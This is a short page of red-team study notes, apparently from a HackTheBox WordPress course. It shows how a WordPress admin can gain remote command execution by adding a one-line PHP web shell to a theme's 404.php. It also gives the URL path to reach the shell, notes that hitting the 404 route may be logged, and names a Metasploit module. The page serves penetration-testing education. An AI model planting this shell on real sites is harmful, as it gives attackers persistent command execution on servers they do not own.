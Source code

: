 # WordPress Admin RCE

[![hackingwordpress](../../../../_badges/htb/hackingwordpress.svg)](https://academy.hackthebox.com/course/preview/hacking-wordpress)

<div class="row row-cols-lg-2"><div>

With sufficient privileges, it is possible to exploit a remote command execution (RCE) vulnerability on WordPress.

Since admins can modify templates, and templates are written in PHP, we can replace one of them with a remote shell.

Select `Appearance` then `Theme Editor`. Select a theme, preferably one that is not used to avoid breaking things.

Pick a non-critical file such as `404.php` and add to it a [web shell](/cybersecurity/red-team/s3.exploitation/shell/web_shell.md):
</div><div>

```php!
<?php
// add your webshell
echo "<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>";
// ⚠️ it may not work, prevent the rest of the page from showing up
exit 0;
```

To execute it, aside from running a 404 which may recorded, directly access the file from the theme folder:

```text!
/wp-content/themes/<theme_name>/404.php
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* metasploit `wp_admin_shell_upload`
</div><div>
</div></div>